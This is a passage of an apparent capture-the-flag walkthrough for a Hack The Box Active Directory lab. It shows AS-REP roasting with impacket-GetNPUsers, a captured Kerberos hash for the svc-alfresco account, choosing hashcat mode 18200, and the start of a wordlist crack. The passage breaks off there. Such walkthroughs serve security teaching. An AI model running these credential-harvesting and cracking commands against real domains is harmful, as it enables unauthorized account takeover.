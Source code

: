 ```bash
➜  impacket-GetNPUsers htb.local/ -request -usersfile users.txt -format hashcat -dc-ip 10.10.10.161

Impacket v0.11.0 - Copyright 2023 Fortra

-- REDACTED --

[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:00bfceb4ee57f0ad445b9b947b921f34$7009468b428cd640163b6bd61e5731840fade54f40c1a4848a38b503f1b2f26f9635fdfa522da3f9c30aacc50a2720294a4c9f6129e9ad0d6f5babae082bdb4d69fd4a4173d23da3e11b0c1bc85617baf45198173d5b221aa529b3370541bff449b010e46786ccd9463bac121985d62899dd9df980bcb2f8054821be9fb5b029e15dcca84b84ae921a2a34e91879efa89ee7a9745ff9b7a281ec388728e972f5a8aaec85663fa8c3056006388c695dd06a8eb95521f788acde78f90a59d4328b73ac9e9c4906c9d9bfbf031cab4d1b2ad7f95b8571ca0fc549da1503bb28396a87fac4d11fd5
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

-- REDACTED --

```


----

## Hash cracking

### Hashcat


Moving on to hashcat, you need to identify the right mode to use in cracking the hash. Simply run the following command:

```bash
➜  hashcat --help | grep -i kerberos
  19600 | Kerberos 5, etype 17, TGS-REP                              | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  28800 | Kerberos 5, etype 17, DB                                   | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                              | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                             | Network Protocol
  28900 | Kerberos 5, etype 18, DB                                   | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                      | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
```

Here you want to focus on the last option on the list `18200`, which as you can see is for the AS-REP type. Proceed to crack as follows:

```bash
➜  hashcat -m 18200 TGT.txt ~/Desktop/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-7820HQ CPU @ 2.90GHz, 1801/3667 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
```